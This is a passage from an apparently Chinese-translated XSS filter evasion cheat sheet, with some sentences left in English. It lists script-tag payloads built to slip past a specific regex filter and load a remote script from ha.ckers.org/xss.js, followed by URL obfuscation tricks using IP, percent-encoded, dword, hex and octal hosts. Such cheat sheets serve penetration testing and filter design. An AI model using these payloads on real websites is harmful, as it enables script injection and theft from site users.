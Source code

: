 这是另一个 xss 例子去绕过相同的过滤器，关于`/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i`的正则过滤。我知道，我说过我将不会去痛痛快快的聊减灾技术。但是这是我所看到的唯一例子在允许用户输入`<SCRIPT>`但是不允许通过 src 加在远程脚本的过滤这个 xss 的可用方法。（当然，还有一些其他方法去处理它，如果它们允许`<SCRIPT>` ）

```
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

最后一个绕过`/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i`正则匹配的例子，通过重音符。（再以无法工作在 firfox）

```
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

这个 xss 例子押注域哪些正则并不去拼配一对引号，而是去发现任何引号后就立即结束参数字符串。

```
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

这 xss 仍然让我担心，因为他是几乎没有肯呢过去停止在没有阻止活动内容的情况下。

```
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

### URL 字符串绕过

这里假设 "[`www.google.com/`](http://www.google.com/)" 这种在语法上是不被允许的。

**IP 代替域名**

```
<A HREF="http://66.102.7.147/">XSS</A> 
```

**URL 编码**

```
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A> 
```

**双字节编码** （注意：有其他的双字节编码变种。请参考下面混淆后的 ip 为更多信息）

```
<A HREF="http://1113982867/">XSS</A> 
```

**十六进制编码** The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit,因为十六进制数实在 0-f 之间，因此第三位开头的 0 可以被省略掉。

```
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A> 
```

**八进制编码** Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc...:

```
<A HREF="http://0102.0146.0007.00000223/">XSS</A> 
```
